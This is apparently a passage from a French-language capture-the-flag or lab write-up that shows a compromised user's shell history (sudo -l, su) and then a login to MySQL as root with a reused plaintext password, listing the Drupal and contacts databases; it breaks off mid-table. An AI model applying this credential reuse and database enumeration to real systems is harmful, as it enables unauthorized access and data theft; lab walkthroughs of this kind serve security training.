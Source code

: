 ```console
ls -latdr .dmrc
chmod 644 .dmrc 
sudo vi /etc/inittab
netstat -an
service samba status
sudo service samba status
sudo /sbin/service samba status
sudo /sbin/service smbd status
sudo /sbin/service smb status
exit
sudo -l
su
sudo su
exit
```

Le mot de passe Mysql n'a pas été modifié depuis, il est alors possible de fouiller la base de données à la recherche des informations les plus intéressantes.

```console
[patrick@localhost ~]$ mysql -u root -pmysqlpassword
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 35366
Server version: 5.0.45 Source distribution

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema | 
| contacts           | 
| drupal             | 
| mysql              | 
| test               | 
+--------------------+
5 rows in set (0.03 sec)

mysql> select table_schema, table_name from information_schema.tables;
+--------------------+---------------------------------------+
| table_schema       | table_name                            |
+--------------------+---------------------------------------+
| information_schema | CHARACTER_SETS                        | 
| information_schema | COLLATIONS                            | 
| information_schema | COLLATION_CHARACTER_SET_APPLICABILITY | 
| information_schema | COLUMNS                               | 
| information_schema | COLUMN_PRIVILEGES                     | 
| information_schema | KEY_COLUMN_USAGE                      | 
| information_schema | PROFILING                             | 
| information_schema | ROUTINES                              | 
| information_schema | SCHEMATA                              | 
| information_schema | SCHEMA_PRIVILEGES                     | 
| information_schema | STATISTICS                            | 
| information_schema | TABLES                                | 
| information_schema | TABLE_CONSTRAINTS                     | 
| information_schema | TABLE_PRIVILEGES                      | 
| information_schema | TRIGGERS                              | 
| information_schema | USER_PRIVILEGES                       | 
| information_schema | VIEWS                                 | 
| contacts           | contact                               | 
| drupal             | access                                | 
| drupal             | authmap                               | 
| drupal             | blocks                                | 
```